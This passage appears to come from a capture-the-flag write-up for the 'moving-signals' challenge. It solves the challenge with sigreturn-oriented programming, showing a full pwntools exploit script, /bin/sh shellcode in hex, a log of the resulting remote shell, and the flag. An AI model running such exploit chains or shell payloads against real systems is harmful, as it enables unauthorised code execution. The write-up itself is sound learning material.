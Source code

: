 After this, any shellcode sent to the server will be immediately executed.

```python
r.send(sh())	# sh() is a pwnscripts feature. You can use shellcode.sh() if you don't have it.
r.interactive() # execute shell
```

That works:

```python
[DEBUG] Sent 0x16 bytes:
    00000000  31 f6 56 48  bb 2f 62 69  6e 2f 2f 73  68 53 54 5f  │1·VH│·/bi│n//s│hST_│
    00000010  f7 ee b0 3b  0f 05                                  │···;│··│
    00000016
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x1e bytes:
    b'flag.txt\n'
    b'moving-signals\n'
    b'ynetd\n'
```

## Flag

`flag{s1gROPp1ty_r0p_321321}`

## Full script

```python
from pwnscripts import *
context.binary = 'moving-signals'
context.binary.symbols['syscall'] = context.binary.symbols['_start'] + 0x15
r = remote('161.97.176.150', 2525)

# After SigRet, call read(0, rip+2, 0x500).
frame = SigreturnFrame()
frame.rax = constants.SYS_read
frame.rdi = 0
frame.rsi = context.binary.symbols['syscall'] + 2 # the first instr after syscall
frame.rdx = 0x500
frame.rip = context.binary.symbols['syscall'] # syscall location
frame.rsp = context.binary.symbols['_start'] + 0xff0    # read() needs a stack

R = ROP(context.binary)
R.raw(0)    # because `sub rsi, 8`
R.rax = constants.SYS_rt_sigreturn
R.call(frame.rip)
R.raw(bytes(frame))
r.send(R.chain())
# Now, overwrite the instructions at rip+2 with /bin/sh shellcode.
r.send(sh())
r.interactive() # execute shell
```

